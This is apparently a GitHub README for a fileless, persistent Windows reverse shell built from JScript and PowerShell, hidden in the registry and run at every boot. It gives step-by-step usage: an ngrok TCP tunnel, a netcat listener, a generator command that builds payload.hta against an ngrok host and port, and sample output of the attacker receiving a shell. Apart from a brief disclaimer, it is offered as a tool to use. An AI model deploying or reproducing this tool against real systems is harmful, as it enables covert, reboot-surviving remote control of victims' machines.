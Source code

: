 # Living off the land (LOTL) persistent reverse shell for windows
This is a fileless living off the land reverse shell written in JScript and Powershell script. It runs every time the windows boots and relies solely on windows registry and environment variables to execute without creating any files on the system<br>
Disclaimer: this program is only for educational purposes
## Proof of concept
WARNING: Since editing windows registries can cause some problems, I really recommend running this program on a virtual machine<br>
download the repository and run POC.hta file on your windows system<br>
Now every time you reboot your windows a messagebox with 'living off the land' message will appear
![alt text](https://github.com/Null-byte-00/LOTL/blob/main/LOTL.png?raw=true)
## Reverse shell
In this case I'm using ngrok to make a tcp tunnel:
```
ngrok tcp 3333
```
then we run netcat to listen on port 3333
```
nc -nvlp 3333
```
### creating payload
Now we can create out payload with our ngrok tunnel's domain and port
```
python.exe generator.py 8.tcp.ngrok.io 18053 payload.hta
```
all you have to do now is to run payload.hta in your windows machine and you get a reverse shell
```
┌─[parrot@parrot]─[~]
└──╼ $nc -nvlp 3333
listening on [any] 3333 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 50662
> echo hello
hello
>
```
this reverse shell is persistent meaning every time you boot the windows the payload will execute
